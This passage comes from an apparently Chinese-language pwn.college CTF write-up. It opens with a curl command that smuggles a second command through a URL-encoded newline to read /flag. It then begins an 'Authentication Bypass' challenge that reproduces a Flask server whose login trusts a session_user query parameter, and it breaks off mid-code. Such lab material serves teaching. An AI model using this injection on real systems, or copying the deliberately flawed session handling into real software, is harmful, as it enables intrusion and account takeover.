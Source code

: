 具体：

```bash
curl -v http://challenge.localhost:80/?directory=.%0Acat%20%2Fflag
```



# 9-Authentication Bypass 1

## 问题描述

一大串代码

```python3
hacker@web-security~authentication-bypass-1:~$ cat /challenge/server 
#!/opt/pwn.college/python

import tempfile
import sqlite3
import flask
import os

app = flask.Flask(__name__)

# Don't panic about this class. It simply implements a temporary database in which
# this application can store data. You don't need to understand its internals, just
# that it processes SQL queries using db.execute().
class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()
# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [os.urandom(8)])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
    user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
    if not user:
        flask.abort(403, "Invalid username or password")

    return flask.redirect(f"""{flask.request.path}?session_user={username}""")


@app.route("/", methods=["GET"])
```